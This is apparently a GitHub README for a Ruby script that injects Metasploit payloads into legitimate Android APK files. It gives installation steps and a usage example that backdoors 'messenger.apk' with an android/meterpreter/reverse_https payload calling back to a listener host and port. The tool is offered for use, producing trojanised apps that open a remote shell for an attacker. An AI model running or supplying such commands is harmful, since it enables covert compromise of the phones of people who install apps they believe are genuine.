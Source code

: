 # metasploit-apk-embed-payload
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs and Result of [How to Embed a Metasploit Payload in an Original .Apk File](http://null-byte.wonderhowto.com/how-to/embed-metasploit-payload-original-apk-file-0166901/) Lesson**
**Authored by timwr, Jack64 , Updated by [xC0d3rZ](https://xc0d3rz.github.io/whoaim)**
###Installation
```bash
 gem install bundler
 bundler install
``` 
###Requirements 
 
 1. Ruby (**> 1.8.7**).
 2. Android SDK(** For injection **)
 
###Warring 
Don't edit or remove **embed_tools** folder.
Don't remove or edit **tmp/*** folder until script finish Embedding 
###Usage
```bash
./run [target.apk] [msfvenom options]
```
<br>
e.g
```bash
./run messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```


